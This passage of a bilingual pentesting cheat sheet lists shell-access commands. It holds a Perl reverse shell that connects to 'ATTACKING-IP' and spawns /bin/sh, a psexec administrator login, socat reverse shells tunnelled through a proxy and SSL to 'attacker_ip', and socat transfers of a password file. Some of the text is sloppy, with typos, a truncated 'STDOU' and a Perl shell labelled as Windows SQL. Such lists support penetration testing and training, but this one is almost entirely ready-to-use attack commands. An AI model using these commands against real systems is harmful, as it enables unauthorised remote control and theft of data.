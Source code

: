 - Windows
	```sql
	perl -e 'use Socket;$i="ATTACKING-IP";$p=80;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
	```
## SMB
- If er have user and passord
```bash
psexec.py WORKGROUP/Admnistrator@10.10.10.5
```
## **Socat**
- Reverse shell a través de proxy y encapsulada en SSL:
```bash
# Lado atacante
socat TCP-LISTEN:443 stdout

#Lado victima
proxy=your-company-proxy
cctrl=attacker_ip
socat TCP-LISTEN:44443,reuseaddr,fork,bind=127.0.0.1 PROXY:$proxy:$cctrl:443,proxyport=80
socat TCP-LISTEN:55522,reuseaddr,fork,bind=127.0.0.1 OPENSSL:127.0.0.1:44443,verify=0
```

## Socat

### Client
  ```bash
  socat - TCP4:>remote server's IP>:80
  ```
### Server
  ```bash
  sudo socat TCP4-LISTEN:443 STDOU
  ```
### Send a file
  ```bash
  sudo socat TCP4-LISTEN:443,fork file:pass.txt
  ```
  
### Receive a file
  ```bash
  sudo socat TCP4:<Server IP>:443 file:pass.txt,create
  ```
### Reverse Shell
  ```bash
  #Attacker's machine
  socat -d -d TCP4-LISTEN:443 STDOUT
  #The -d -d are used to add verbosity
  ```
  